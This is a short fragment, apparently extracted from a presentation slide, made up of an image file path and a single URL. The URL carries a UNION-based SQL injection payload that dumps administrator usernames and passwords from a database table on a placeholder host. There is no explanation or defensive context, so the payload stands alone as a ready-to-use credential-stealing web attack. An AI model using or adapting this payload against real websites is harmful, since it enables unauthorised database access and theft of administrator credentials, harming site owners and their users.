

#
http://www.b.c/subcat.php?id=null Union all select group_concat%28admin_username,0x3a,admin_password from administrators